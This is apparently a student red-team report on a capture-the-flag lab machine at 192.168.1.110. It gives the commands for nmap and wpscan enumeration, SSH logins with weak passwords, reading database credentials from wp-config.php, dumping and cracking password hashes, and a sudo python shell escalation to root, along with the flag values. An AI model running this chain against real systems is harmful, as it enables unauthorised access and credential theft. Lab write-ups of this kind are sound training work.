 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV -O 192.168.1.110
```

![](FinalProjectImages/nmapsSsVO.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 open ssh
  - Port 80 open http
  - Port 111 open rpcbind
  - Port 139 open netbios-ssn
  - Port 445 open netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
  - Enumeration
  - Weak Passwords
  - Unsalted Password Hashes
  - Escalation Privilege/ Python Sudo Access


### Exploitation

 The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
 - Enumerate the WordPress site using WPSCAN
```
$ wpscan --url http://192.168.1.110/wordpress -eu 
``` 
![](FinalProjectImages/wpscan.png) 

- There are two users. Michael and Steven

![](FinalProjectImages/enumerateusers.png)

 - Use the command ```ssh michael@192.168.1.110``` and the password 'michael' to gain access
 
 ![](FinalProjectImages/sshmichael.png)
 
 
 - By traversing the directories two flags are exposed:
   - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
     - **Exploit Used**
       - This flag was found in /var/www/html
       - `cat service.html`
       
   - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used**
       - This flag was found in /var/www/
       - `cat flag2.txt`

 ![](FinalProjectImages/htmldirectory.png)
 ![](FinalProjectImages/flag1.png)
 ![](FinalProjectImages/catflag2.png)
      
- From the /var/www/html/ directory `cd wordpress` to find the `wp-config.php` file
 - This is where the MySQL username and password is located. 
 
  ![](FinalProjectImages/wpconfig.png)
  
 - Use the found username: root and password: R@v3nSecurity
 - Inside mysql, the following commands lead to password hashes and a flag3.txt
  ``` bash
     show databases;
     use wordpress;
     show tables;
     select * from wp_users;
  
  ```
   - `flag3.txt`:{afc01ab56b50591e7dccf93122770cd2}
     - **Exploit Used**
       - Used the traversal of directories in mysql to obtain flag 3
       `select * from wp_posts`
       #TODO: include screenshot
 - After obtaining unsalted password hashes from 'wp_users', create the file 'wp_hashes.txt` containing the hashes to crack using john the ripper. 
 - john the ripper cracked the password for the user steven. The password is 'pink84'
 - Then, use the command `ssh steven@192.168.1.110' and the password 'pink84' to gain access to steven's user.
 - Check for permissions using `sudo -l`
 - steven can use sudo using python
 - Escalate privileges to gain root access and find flag 4
   - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
     - **Exploit Used**
       - Unsalted User Password Hash and Privilege Escalation
       - `sudo python -c 'import pty;pty.spawn("/bin/sh")`

